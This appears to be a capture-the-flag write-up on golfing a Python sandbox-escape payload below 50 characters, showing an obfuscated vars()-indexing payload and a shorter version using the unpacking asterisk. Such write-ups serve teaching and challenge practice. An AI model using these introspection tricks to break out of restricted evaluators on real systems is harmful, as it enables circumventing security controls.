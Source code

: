 # Golfing 50 Character

at __Golfing 100 Character__ we already had this payload

```
vars(vars()[[x for x in vars()][6]])[[y for y in vars(vars()[[x for x in vars()][6]])][12]]()
```

but it is still too long

<img src='img/1.png' width='700px'>

yea, we can see if the payload is still far from 50 character, but we had ultimate solution here. That issssss __asterisk__ (__*__). How can we use it? asterisk can change the use of

```
x for x in
```

things. So, lets try it

```
vars(vars()[[*vars()][6]])[[*vars(vars()[[*vars()][6]])][12]]()
```

u guys can see huh? lets see the character

<img src='img/2.png' width='700px'>

see, just using __*__, it makes the payload reducing 30 char. But its still far from the maximum payload.

<img src='img/3.png' width='900'>

u can see, it work!